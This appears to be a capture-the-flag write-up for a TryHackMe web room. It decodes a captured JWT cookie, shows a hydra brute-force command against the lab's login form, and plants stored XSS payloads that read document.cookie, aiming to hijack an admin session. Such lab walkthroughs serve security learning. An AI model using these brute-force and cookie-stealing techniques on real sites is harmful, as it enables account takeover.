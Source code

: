 ## Flag 1

The hint for flag 1 references the Report Listing function.  I created my own user "blah" and reported one of the listings.  After reporting I got a couple of messages from "system", which I verified was a valid user with the login form.  I also captured the process with Burpsuite and noticed I get a Cookie token value.

```
Cookie: token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjQsInVzZXJuYW1lIjoiYmxhaCIsImFkbWluIjpmYWxzZSwiaWF0IjoxNjQwMjk4NzUzfQ.86jKZpZqJQSamScwSZlF6SG0CeokgZb-Q79wBEjQaQ8
```

When I Base64 decode each part (separated by .'s), I get this:

```
{"alg":"HS256","typ":"JWT"}{"userId":4,"username":"blah","admin":false,"iat":1640298753}.:.¦if¢PI©.s...^..@.¢H.m.ýÀ.#A¤<
```

This is a JSON Web token.  There is a room on Tryhackme [here](https://tryhackme.com/room/zthobscurewebvulns) that outlines how these can be exploited, but it requires us to have the server's public key, which we do not have, so this is not likely to work.

Moving on away from JSON Tokens, I tried brute forcing the login with hyrda, no luck.  

```
┌──(kali㉿kali)-[~/tryhackme/marketplace]
└─$ hydra -l system -P /usr/share/wordlists/rockyou.txt 10.10.33.229 http-post-form "/login:username=^USER^&password=^PASS^:403"    
Hydra v9.2 (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-12-23 20:21:01
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://10.10.33.229:80/login:username=^USER^&password=^PASS^:403
[STATUS] 831.00 tries/min, 831 tries in 00:01h, 14343568 to do in 287:41h, 16 active
[STATUS] 887.33 tries/min, 2662 tries in 00:03h, 14341737 to do in 269:23h, 16 active
[STATUS] 902.29 tries/min, 6316 tries in 00:07h, 14338083 to do in 264:51h, 16 active
[STATUS] 911.00 tries/min, 13665 tries in 00:15h, 14330734 to do in 262:11h, 16 active
```

I tried some basic SQL injections on the login form with no luck.  

When logged in, we have the option to create our own listing.  Since we assume admins visit listings (especially when they are flagged), we can try to get something to run when they visit the page.

I created a list with the below two for the title and description, to verify it is run when the page is visited.
```
<script>alert(1)</script>

<script>alert(document.cookie)</script>
```

Since we know we get a cookie that represents our user directly, we can hijack the admin (system) session by getting them to visit the page and sending us their cookie.
